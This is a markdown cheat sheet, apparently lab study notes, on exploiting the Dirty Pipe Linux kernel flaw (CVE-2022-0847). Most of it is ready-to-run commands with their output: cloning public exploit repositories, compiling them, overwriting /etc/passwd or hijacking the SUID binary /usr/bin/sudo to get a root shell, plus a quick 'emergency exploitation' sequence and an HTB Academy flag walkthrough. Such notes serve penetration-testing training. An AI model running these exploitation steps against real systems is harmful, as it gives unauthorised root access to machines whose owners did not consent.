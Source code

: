 # 💧 Dirty Pipe (CVE-2022-0847)

## 🎯 Overview

Dirty Pipe kernel vulnerability allows unauthorized writing to root-owned files through pipe mechanism exploitation, similar to Dirty Cow but affecting newer kernels (5.8-5.17).

## 🚨 CVE-2022-0847 Details

### Vulnerability Info
- **Impact**: Write to arbitrary files as root with only read access
- **Affected Kernels**: 5.8 to 5.17 (including Android)
- **Mechanism**: Pipe-based unidirectional communication exploitation
- **Similar to**: Dirty Cow (CVE-2016-5195) but different attack vector

### Kernel Version Check
```bash
# Check vulnerable kernel version
uname -r
# Vulnerable: 5.8.x - 5.17.x

# Examples of vulnerable versions:
# 5.13.0-46-generic
# 5.15.0-25-generic
# 5.16.x-x-generic
```

## 🚀 Exploitation

### Download and Compile Exploits
```bash
# Download Dirty Pipe exploits
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits

# Compile both exploits
bash compile.sh
# Creates: exploit-1, exploit-2
```

### Method 1: /etc/passwd Modification
```bash
# Exploit-1 modifies /etc/passwd to remove root password
./exploit-1

# Output:
# Backing up /etc/passwd to /tmp/passwd.bak ...
# Setting root password to "piped"...
# Password: [enter "piped"]
# Restoring /etc/passwd from /tmp/passwd.bak...
# Done! Popping shell...

# Root shell obtained
id
# uid=0(root) gid=0(root) groups=0(root)
```

### Method 2: SUID Binary Hijacking
```bash
# Find SUID binaries
find / -perm -4000 2>/dev/null | head -10

# Execute exploit-2 with SUID binary path
./exploit-2 /usr/bin/sudo

# Output:
# [+] hijacking suid binary..
# [+] dropping suid shell..
# [+] restoring suid binary..
# [+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# Root shell obtained
id
# uid=0(root) gid=0(root) groups=0(root)
```

## 🔧 Alternative Exploits

### Other Dirty Pipe PoCs
```bash
# Additional implementations
git clone https://github.com/febinrev/CVE-2022-0847-DirtyPipe-Exploit.git
git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git

# Compile and execute
gcc -o dirtypipe exploit.c
./dirtypipe
```

### Manual File Modification
```bash
# Basic concept - write to read-only files
# Requires understanding of pipe mechanics
# Advanced exploitation technique
```

## 🔍 Detection & Enumeration

### Dirty Pipe Vulnerability Check
```bash
#!/bin/bash
echo "=== DIRTY PIPE VULNERABILITY CHECK ==="

kernel_version=$(uname -r | cut -d'-' -f1)
echo "Kernel version: $kernel_version"

# Check if kernel version is in vulnerable range
if echo "$kernel_version" | grep -qE "^5\.(8|9|10|11|12|13|14|15|16|17)\."; then
    echo "[!] VULNERABLE to CVE-2022-0847 (Dirty Pipe)"
    echo "Affected range: 5.8.x - 5.17.x"
    echo "Download: https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git"
else
    echo "[-] Not vulnerable to Dirty Pipe"
fi

echo "[+] Checking for gcc compiler:"
which gcc 2>/dev/null && echo "Compiler available for exploit compilation"
```

### Quick Kernel Check
```bash
# One-liner vulnerability check
uname -r | grep -qE "^5\.(8|9|10|11|12|13|14|15|16|17)\." && echo "VULNERABLE to Dirty Pipe" || echo "Not vulnerable"
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Kernel version vulnerability
uname -r | grep -E "^5\.(8|9|10|11|12|13|14|15|16|17)\."

# Compiler availability
which gcc g++
```

### Emergency Exploitation
```bash
# Quick Dirty Pipe exploitation
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh

# Method 1: passwd modification
./exploit-1
# Password: piped

# Method 2: SUID hijacking  
./exploit-2 /usr/bin/sudo
```

### HTB Academy Example
```bash
# 1. Connect to target
ssh htb-student@target

# 2. Check kernel version
uname -r
# Verify: 5.8.x - 5.17.x

# 3. Download and compile
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh

# 4. Execute exploit
./exploit-1  # or ./exploit-2 /usr/bin/sudo

# 5. Get root shell and read flag
cat /root/flag.txt
```

## ⚠️ Exploit Considerations

### Dirty Pipe Characteristics
- **Kernel-level vulnerability** - Direct kernel exploitation
- **High reliability** - Works on most affected systems
- **File corruption risk** - Can damage system files
- **Cleanup required** - exploit-2 creates /tmp/sh

### Limitations
- **Specific kernel range** - Only 5.8-5.17
- **Compilation needed** - Requires gcc on target
- **Modern systems patched** - Fixed in newer kernels
- **Detection possible** - Kernel module monitoring

---

*Dirty Pipe (CVE-2022-0847) exploits kernel pipe mechanisms for arbitrary file writes - any user can modify root-owned files, leading to immediate privilege escalation on vulnerable kernel versions.* 